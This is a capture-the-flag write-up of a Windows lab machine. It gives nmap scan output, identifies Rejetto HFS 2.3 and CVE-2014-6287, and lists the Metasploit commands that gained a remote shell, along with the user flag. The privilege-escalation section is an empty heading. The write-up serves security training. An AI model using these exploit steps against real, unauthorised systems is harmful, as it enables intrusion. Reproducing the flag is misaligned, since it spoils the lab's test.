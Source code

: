 Task 1  Introduction
---------------------

In this room you will enumerate a Windows machine, gain initial access with Metasploit, use Powershell to further enumerate the machine and escalate your privileges to Administrator.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

1. Who is the employee of the month?

picture Present in the port 80 webserver (hosted)

--> Bill Harper


Task 2  Initial Access
-----------------------

Scan the machine with nmap. What is the other port running a web server on?

```
PORT      STATE SERVICE            REASON  VERSION
80/tcp    open  http               syn-ack Microsoft IIS httpd 8.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn        syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server? syn-ack
| ssl-cert: Subject: commonName=steelmountain
| Issuer: commonName=steelmountain
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2021-07-08T20:51:28
| Not valid after:  2022-01-07T20:51:28
| MD5:   8709 a020 40c7 71ec 1907 0372 5df5 4657
| SHA-1: 3b81 38bf 7186 0a82 371c 3c1d 443a 9380 bb95 dc5e
| -----BEGIN CERTIFICATE-----
| MIIC3jCCAcagAwIBAgIQITncN5pTTpdHnXhGU++U6jANBgkqhkiG9w0BAQUFADAY
| MRYwFAYDVQQDEw1zdGVlbG1vdW50YWluMB4XDTIxMDcwODIwNTEyOFoXDTIyMDEw
| NzIwNTEyOFowGDEWMBQGA1UEAxMNc3RlZWxtb3VudGFpbjCCASIwDQYJKoZIhvcN
| AQEBBQADggEPADCCAQoCggEBALzk2LgS0GGlrXEskHH8pi0br2id1tecmaIZi93t
| O1lIGrM3iY+P1DUn7xNavZhf+Sn3AP/ON3b7KXPXk8IhWN4gEOdS4BMTrp1X8f/D
| XK2LmDBkbmQkt6MJxEYSut3mfFeLoXR86cofkJSjUzb65VFv79Jhx9LUVvkwRw7t
| uAKaFEzzWmw91TiEDveFyt7XzVUj3wh5QBtzhBhhNEXiMRDRZFYTycxUO8tVCsZ7
| +PYtFuXGqZN8+5564GOk3AusIa7BiCBnmL64gunwyJSowh/FmFBfSAdsYBR/2U7H
| GVLGfYSRboHogwSPkaxcM6BEBV0U2A2Brm72paCgNTT2rNsCAwEAAaMkMCIwEwYD
| VR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEBBQUAA4IB
| AQBZv4CI0Lo9rbjCpY97G3yi5h9eNyxpzgNhpcJlGUC1s5EqfxaTun/dMSA4wkHK
| AZPEJz2mqHS1FWijz0mhMPZoQtWmqiEKsheThAeeijt+zWFiiGBR/kh350qE953n
| UhBiyzIn5fnLIH/IdXkDX88dW59YLvcSh/T/I9I/SSEvHKVnxoK/cwK9jp67jMHx
| yJqYpnouqgRn9/6vCcdPJfyeAtUBPBBESn4zbZuqTmwEPGhKEQcCQ9k4WvCDioCI
| DIr/ee8g3iEXy0aegLrDpEFaQObbNzqGu/7HxUmzhE2EUCkab2APP5YsPUzL+afl
| LMp6NHY3HrfSLMx5V18P/bkh
|_-----END CERTIFICATE-----
|_ssl-date: 2021-07-09T21:01:01+00:00; -1s from scanner time.
8080/tcp  open  http               syn-ack HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
49152/tcp open  msrpc              syn-ack Microsoft Windows RPC
49153/tcp open  msrpc              syn-ack Microsoft Windows RPC
49154/tcp open  msrpc              syn-ack Microsoft Windows RPC
49155/tcp open  msrpc              syn-ack Microsoft Windows RPC
49156/tcp open  msrpc              syn-ack Microsoft Windows RPC
49163/tcp open  msrpc              syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 0s, deviation: 0s, median: 0s
| nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:28:8b:ec:85:33 (unknown)
| Names:
|   STEELMOUNTAIN<20>    Flags: <unique><active>
|   STEELMOUNTAIN<00>    Flags: <unique><active>
|   WORKGROUP<00>        Flags: <group><active>
| Statistics:
|   02 28 8b ec 85 33 00 00 00 00 00 00 00 00 00 00 00
|   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
|_  00 00 00 00 00 00 00 00 00 00 00 00 00 00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35667/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 24587/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 17430/udp): CLEAN (Failed to receive data)
|   Check 4 (port 39146/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-07-09T21:00:55
|_  start_date: 2021-07-09T20:51:22

```
--> 8080

2. Take a look at the other web server. What file server is running?

--> rejetto http file server

3. What is the CVE number to exploit this file server?

rejetto http file server: version 2.3

Used `searchsploit`

--> 2014-6287

4. Use Metasploit to get an initial shell. What is the user flag?

```
msfconsole -q
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <ip>
set RPORT 8080
exploit
```
Port = 8080 as webserver rejetto was running on port 8080

```
SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
SRVPORT    8080             yes       The local port to listen on.
```

> This exploit has three options: SRVHOST, SRVPORT, and URIPATH.

> 1. The _SRVHOST_ optionrefers to the IP address of your current computer (i.e. the one you are using to execute thea ttack) --> Actually for building the **C2 server**

> 2. The _SRVPORT_ option refers to the port you will use for the exploitation.

- In this case: srv port 8080 => i.e. we will create a C2 channel via port 8080 On which webserver is running.

see this:

![](pic1.jpeg?raw=true)


--> b04763b6fcf51fcd7c13abc7db4fd365


Task3: Privilege Escalation
------------------------------


